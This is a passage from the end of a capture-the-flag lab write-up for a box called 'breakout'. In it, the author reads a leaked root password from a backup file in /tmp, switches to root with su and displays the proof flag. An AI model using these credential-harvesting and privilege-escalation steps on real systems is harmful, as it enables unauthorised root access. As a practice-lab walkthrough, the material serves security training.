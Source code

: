 Now we can read the file

```
cyber@breakout:/tmp$ cat pass.bak 
Ts&4&YurgtRX(=~h
cyber@breakout:/tmp$
```

Woah what a secured password 😅

Lets su to root using this password

```
cyber@breakout:/tmp$ su root
Password: 
root@breakout:/tmp# cd /root
root@breakout:~# ls -al
total 40
drwx------  6 root root 4096 Jan 25 14:55 .
drwxr-xr-x 18 root root 4096 Oct 19  2021 ..
-rw-------  1 root root 1010 Dec 14 10:19 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 19  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Jan 25 14:55 proof.txt
drwx------  2 root root 4096 Oct 19  2021 .spamassassin
drwxr-xr-x  2 root root 4096 Jan 25 16:06 .tmp
drwx------  6 root root 4096 Oct 19  2021 .usermin
root@breakout:~# cat proof.txt 
3a134676deb7e0130d5616798bbbab7c
root@breakout:~#
```

And we're done 



<br> <br>
[Back To Home](../../index.md)
<br>
  













